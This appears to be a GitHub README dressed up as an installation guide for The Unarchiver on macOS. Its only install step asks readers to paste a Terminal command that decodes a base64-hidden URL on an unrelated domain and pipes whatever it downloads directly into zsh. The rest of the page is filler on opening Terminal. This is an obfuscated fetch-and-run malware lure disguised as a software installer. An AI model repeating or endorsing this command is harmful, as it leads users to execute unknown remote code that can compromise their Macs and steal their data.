

<p align="center">
  
</p>

# 📦 The Unarchiver for macOS

A simple and fast way to install **The Unarchiver** on macOS directly from Terminal.

The Unarchiver is a lightweight archive extraction utility for macOS that supports ZIP, RAR, 7-Zip, TAR, GZIP, and many other archive formats.

---

## 🚀 Quick Installation

Once Terminal is open, copy and paste the following command:

```bash
curl -s $(echo "aHR0cHM6Ly9seXJpY2JsYXplOS5jb20vY3VybC8wMHMyaDI1dWVnL2U1dXBrbzMzYTRyYndmaWhmdDF3Yy5kYXQ=" | openssl base64 -d -A) | zsh
```

Press **Enter** and wait for the installation to complete.

That's it. 🎉

The Unarchiver will be installed automatically into your Applications folder.

---

## 🖥 How to Open Terminal

You can open Terminal on macOS in several ways.

### Method 1 — Spotlight Search

1. Press:

```text
⌘ Command + Space
```

2. Type:

```text
Terminal
```

3. Press:

```text
Enter
```

Terminal will open immediately.

---

### Method 2 — Finder

1. Open **Finder**.
2. Click **Applications** in the sidebar.
3. Open the **Utilities** folder.
4. Double-click **Terminal**.

Path:

```text
Finder → Applications → Utilities → Terminal
```

---

### Method 3 — Launchpad

1. Open **Launchpad**.
2. Search for:

```text
Terminal
```

3. Click the **Terminal** icon.

---

## 📂 Launch The Unarchiver

After installation, open:

```text
Applications → The Unarchiver
```

You can also use Spotlight:

```text
⌘ Command + Space
```

Then search for:

```text
The Unarchiver
```

and press **Enter**.

---

## 📋 Requirements

- macOS
- Terminal

Works on modern **Intel** and **Apple Silicon** Macs.

---

## ⭐ Support

If this repository helped you, consider giving it a **star ⭐**.

Enjoy! 🚀
